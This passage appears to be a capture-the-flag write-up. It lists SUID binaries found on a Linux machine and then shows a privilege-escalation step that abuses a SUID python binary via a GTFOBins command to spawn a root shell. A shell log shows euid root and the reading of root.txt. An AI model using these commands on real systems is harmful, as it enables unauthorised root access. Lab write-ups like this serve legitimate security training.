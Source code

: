 /snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
</code></pre>

> /usr/bin/python

#### 4.2 - Find a form to escalate your privileges.

Now here we will search our gtfobins to search for any binary and I found this: [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

Write this code in your shell:

```bash
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

#### 4.3 - root.txt \[flag]

Navigate to the root directory and we will find our root flag.

```bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
cd root
ls
root.txt
cat root.txt
```

<details><summary>root.txt [Flag]</summary></details>

[^1]: 
